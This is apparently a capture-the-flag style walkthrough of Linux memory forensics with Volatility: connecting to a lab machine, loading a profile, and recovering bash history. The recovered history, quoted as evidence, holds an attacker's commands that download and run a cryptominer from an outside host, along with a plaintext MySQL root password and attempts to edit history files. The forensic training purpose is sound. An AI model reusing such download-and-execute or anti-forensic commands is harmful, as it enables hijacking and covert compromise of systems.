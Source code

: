 ## STEPS

1. Deploy Machine
2. SSH into machine
   1. > ssh ubuntu@10.10.39.16
      1. PW: volatility
3. VOLATILITY
   1. Lets look at the volatility python script
      1. > vol.py -h
         1. This gives us command help
   2. Lets check our volatility profiles
      1. > vol.py --info

         ```text
            Profiles
            --------
            VistaSP0x64           - A Profile for Windows Vista SP0 x64
            VistaSP0x86           - A Profile for Windows Vista SP0 x86
            VistaSP1x64           - A Profile for Windows Vista SP1 x64
            VistaSP1x86           - A Profile for Windows Vista SP1 x86
            VistaSP2x64           - A Profile for Windows Vista SP2 x64
            VistaSP2x86           - A Profile for Windows Vista SP2 x86
            Win10x64              - A Profile for Windows 10 x64
            Win10x64_10240_17770  - A Profile for Windows 10 x64 (10.0.10240.17770 / 2018-02-10)
            .
            .
            .
         ```

         1. In here we see several Windows profiles, but no LINUX profiles
         2. We need to load our profile
   3. Load our profile
      1. > ls Desktop/Evidence
         1. In here we see "Ubuntu_5.4.0-163-generic_profile.zip"
      2. > cp Ubuntu_5.4.0-163-generic_profile.zip ~/.local/lib/python2.7/site-packages/volatility/plugins/overlays/linux/
         1. This will copy the profile to our volatility script
      3. Now lets load our memory and LINUX profile
4. MEMORY ANALYSIS
   1. PLUGINS
      1. HISTORY plugin
         1. > vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_bash

            ```text
               Pid      Name                 Command Time                   Command
               -------- -------------------- ------------------------------ -------
                  8092 bash                 2023-10-02 18:13:46 UTC+0000   sudo su
                  8092 bash                 2023-10-02 18:15:44 UTC+0000   git clone https://github.com/504ensicsLabs/LiME && cd LiME/src/
                  8092 bash                 2023-10-02 18:15:53 UTC+0000   ls
                  8092 bash                 2023-10-02 18:15:55 UTC+0000   make
                  8092 bash                 2023-10-02 18:16:16 UTC+0000   vi ~/.bash_history 
                  8092 bash                 2023-10-02 18:16:38 UTC+0000    
                  8092 bash                 2023-10-02 18:16:38 UTC+0000   ls -la /home/elfie/
                  8092 bash                 2023-10-02 18:16:42 UTC+0000   sudo su
                  8092 bash                 2023-10-02 18:18:38 UTC+0000   ls -la /home/elfie/
                  8092 bash                 2023-10-02 18:18:41 UTC+0000   vi ~/.bash_history 
                  10205 bash                 2023-10-02 18:19:58 UTC+0000   mysql -u root -p'NEhX4VSrN7sV'
                  10205 bash                 2023-10-02 18:19:58 UTC+0000   id
                  10205 bash                 2023-10-02 18:19:58 UTC+0000   curl http://10.0.2.64/toy_miner -o miner
                  10205 bash                 2023-10-02 18:19:58 UTC+0000   ./miner
                  10205 bash                 2023-10-02 18:19:58 UTC+0000   cat /home/elfie/.bash_history
                  10205 bash                 2023-10-02 18:20:03 UTC+0000   vi .bash_history 
                  10205 bash                 2023-10-02 18:21:21 UTC+0000   cd LiME/src/
